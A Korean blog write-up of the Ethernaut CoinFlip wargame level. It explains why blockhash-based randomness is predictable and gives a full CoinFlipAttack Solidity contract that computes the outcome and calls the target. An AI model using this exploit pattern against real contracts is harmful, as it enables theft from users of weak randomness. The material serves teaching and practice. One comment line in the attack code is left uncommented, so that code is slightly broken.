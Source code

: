 ```yaml
---
emoji: 🧢
title: (Ethernauts 취약점 3) CoinFlip  
date: '2022-01-06 02:32:00'
author: 한성원
tags: ethernauts CoinFlip vulnerability
categories: 취약점분석
---
```



# 👋 1. CoinFlip
__Difficulty 3/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- 동전 뒤집기 게임에서 10번 연속 예측 성공하기

- - -

## 코드 분석
분석은 주석에!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  // 연속 win의 수
  uint256 public consecutiveWins;
  // 이전 flip()에 사용됐던 hash 값 
  uint256 lastHash;
  // 난수 생성을 위한 값
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  
  //constructor: consecutiveWins 초기 값을 0으로 setting
  constructor() public {
    consecutiveWins = 0;
  }

  //동전 뒤집기 예측을 위한 function
  //return boolean
  function flip(bool _guess) public returns (bool) {
    // blockValue에 last blockhash를 uint256으로 casting해 저장한다
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    //만약 이전 게임에서 사용했던 hash라면 답이 같을 수 있음으로 revert한다
    if (lastHash == blockValue) {
      revert();
    }
    
    // 이번 게임에서 사용 될 hash를 저장
    lastHash = blockValue;
    //blockValue를 FACTOR로 나눈 값을 coinFilip에 저장한다.
    uint256 coinFlip = blockValue.div(FACTOR);
    // coinFlip의 숫자와 1이 같으면 side에 true, 다르면 false를 저장한다.
    bool side = coinFlip == 1 ? true : false;

    // 만약 side와 _guess가 같다면 실행, 즉 user의 예측이 맞았다면 실행
    if (side == _guess) {
      // 연속 win의 수에 1을 더한다
      consecutiveWins++;
      return true;
    } 
    // 만약 side와 _guess가 다르다면 실행, 즉 user의 예측이 틀렸다면 실행
    else {
      // 연속 win의 수를 초기화 시킨다.
      consecutiveWins = 0;
      return false;
    }
  }
}
```
- - -

### 풀이를 위한 Setup
[RemixIDE](https://remix.ethereum.org)를 사용한다. 
remix 사용법은 YouTube와 google에 많이 나와있으니 최신것으로 찾아보자!
그리고 docs를 읽어본다면 사용법을 쉽게 익힐 수 있을 것이다.

한 가지 주의할 점은 CoinFlip은 remix에서 바로 deploy하는 것이 아니라 ethernauts에서 만든 instance의 주소를 가지고 addressAt을 누르면 된다.
또한 우리는 Rinkeby Network를 사용하고 있으니 ENVIRONMENT를 "Injected Web3"를 선택해주어야 한다.


## 풀이
이 문제는 random으로 생성되는 값을 연속해서 맞추는 것이다.
그리고 이 문제에서 주목해야 할 점은 randomness이다.

solidity를 사용하여 randomness를 생성하는 것은 매우 까다롭고 대부분의 방법은 hacking 당하기 쉽다. 그래서 randomness를 생성하는 곳을 파고들어야 한다.

이 CoinFlip contract에서는 미리 정해진 FACTOR과 이전 block의 hash를 사용하여 randomness를 생성한다.

blockhash의 특징은 무엇일까? 우선 blockhash는 트랜잭션이 추가된 block의 hash 값이다. 즉 같은 block에 있는 transaction은 같은 blockhash를 가진다.

그렇다면 우리가 같은 block에 transaction을 보낸다면 해킹이 가능 할 것이다!

나는 그래서 CoinFlipAttack contract를 새로 만들었다. 

주석을 통해 CoinFlipAttack contract를 같이 분석 해보자!
```solidity
//아마 위해서 본 CoinFlip contract와 매우 비슷할 것이다.
contract CoinFlipAttack {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 public lastHash;
  // CoinFlip.flip()의 결과를 예측하기 위해 같은 FACTOR르 쓴다.
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  //CoinFlip contract의 address
  address coinFlipAddress;

  //contructor: 배포시 CoinFlip의 address를 포함해 배포한다.
  constructor(address _coinFlipAddress) public {
    consecutiveWins = 0;
    //coinFlipAddress를 CoinFlip의 address로 설정한다.
    coinFlipAddress = _coinFlipAddress;
  }

  function flip() public {
    //CounFlip contract와 똑같이 blockValue를 생성한다.
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    //CounFlip contract와 똑같이 conFlip 값을 생성한다.
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    이미 맞춘 값을 CoinFlip.flip에 보내 해킹한다.
    CoinFlip(coinFlipAddress).flip(side);

  }
}

```

즉 CoinFlipAttack.flip()을 다른 블록에 10번 call하면 해킹에 성공하게 된다.


완료 후 Submit instance를 누르고 조금 기다리면 block이 mine되고,
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

- - -
## 마무리
solidity에서 randomness를 생성하는 것은 까다롭다. block.timestamp, block.hash등을 사용할 수 있지만 이는 모두 예측이 가능하다. 그래서 contract에서 randomness를 생성하는 것이 아니라 외부에 가져오는 것이 좋다. Openzeppline에서는 Chainlink VRF, RANDAO, Oraclize를 사용하는 것을 권장하고 있다. 앞으로 randomness를 만들때 조심하자! 

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
```toc

```